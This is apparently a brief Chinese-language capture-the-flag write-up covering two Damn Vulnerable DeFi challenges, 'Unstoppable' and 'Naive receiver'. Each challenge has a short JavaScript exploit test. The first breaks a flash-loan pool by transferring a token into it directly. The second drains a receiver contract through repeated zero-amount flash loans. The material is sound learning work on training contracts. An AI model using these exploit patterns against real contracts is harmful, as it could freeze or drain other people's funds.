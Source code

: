 ### 1.unstoppable
根据题目，即为攻击合约让他停止工作，在flashLoan函数里面有一句assert(poolBalance == balancebefore),所以让两者不相等即可 
方法即为：transfer 1 ether给合约 
攻击代码： 
 it('Exploit', async function () { 
     /** COOD YOUR EXPLOIT HIRE */ 
     await this.token.transfer(this.pool.address,1); 
 }); 
 ### 2.Naive receiver 
 题目要求：抽空用户合约里的所有eth 
 flashLoan函数以borrower借款 
 攻击代码： 
  it('Exploit', async function () { 
     /** COOD YOUR EXPLOIT HIRE */ 
     for(i=0;i<10;i++){ 
     await this.pool.flashLoan(this.receiver.address,0); 
     } 
  });  
